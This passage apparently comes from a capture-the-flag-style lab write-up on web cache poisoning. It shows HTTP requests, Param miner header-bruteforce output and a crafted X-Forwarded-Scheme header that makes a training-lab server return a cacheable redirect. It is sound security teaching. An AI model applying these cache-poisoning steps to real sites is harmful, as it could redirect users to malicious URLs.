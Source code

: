 ```bash
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```

By itself, this behavior isn't necessarily vulnerable. However, by combining this with what we learned earlier about vulnerabilities in dynamically generated URLs, an attacker could potentially exploit this behavior to generate a cacheable response that redirects users to a malicious URL

### PRACTITIONER Lab: Web cache poisoning with multiple headers
In this lab the GET /resources/js/tracking.js route is cached

So we first add a cache buster to the request and then we run Param miner to search for headers that may modify the response

Note: the results of Param miner in Extensions > Param miner > Output are appended to the results of the previous scan. Be careful with that and make sure you are reading the results of the last scan

The results of Param miner's last scan:
```bash
Queued 1 attacks from 1 requests in 0 seconds
Initiating header bruteforce on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net
Identified parameter on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net: x-forwarded-scheme
Completed attack on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net
Completed request with key https0a4c000e046d8adf8538b7ad009c001f.web-security-academy.netGET200script: 2 of 2 in 269 seconds with 18412 requests,0 candidates and 0 findings
```

So we see that it found `x-forwarded-scheme` header
So we try to add it to our request:
```bash
GET /resources/js/tracking.js?cb=fsdfsdfsdf HTTP/2
Host: 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net
X-Forwarded-Scheme: nothttps
```
And in the response we get the redirect:
```bash
HTTP/2 302 Found
Location: https://0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net/resources/js/tracking.js?cb=fsdfsdfsdf
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0
```

So we can see that the server returns redirect to `https://...` only when X-Forwarded-Scheme: is not equal to `https`
